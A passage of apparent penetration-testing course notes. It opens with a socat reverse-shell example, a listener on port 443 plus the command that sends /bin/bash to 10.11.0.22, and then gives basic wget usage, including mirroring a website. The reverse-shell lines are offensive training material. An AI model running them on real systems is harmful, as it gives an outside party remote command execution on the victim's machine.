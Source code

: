 ### Reverse Shell with Socat

#### Bob Starts a Listener:

```sh
socat -d -d TCP4-LISTEN:443 STDOUT
```

#### Alice Sends a Reverse Shell:

```sh
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

Upon connection, Bob can execute commands on Alice’s machine.


## HTTP (wget and curl)

## Learning Objectives:

- Download files with wget
- Copy websites with wget
- Download files with curl
- Use a proxy with curl

### Downloading Files with wget

#### Basic Usage:

```sh
wget https://www.offsec.com/documentation/penetration-testing-with-kali.pdf
```

#### Renaming the Downloaded File:

```sh
wget https://www.offsec.com/documentation/penetration-testing-with-kali.pdf -O PEN-200-Syllabus.pdf
```

#### Saving wget Logs:

```sh
wget https://www.offsec.com/documentation/penetration-testing-with-kali.pdf -o log
```

### Copying an Entire Website with wget

Use the `--recursive` option:

```sh
wget --recursive https://www.kali.org/
```

After completion, the downloaded site structure can be examined:

```sh
ls www.kali.org
```
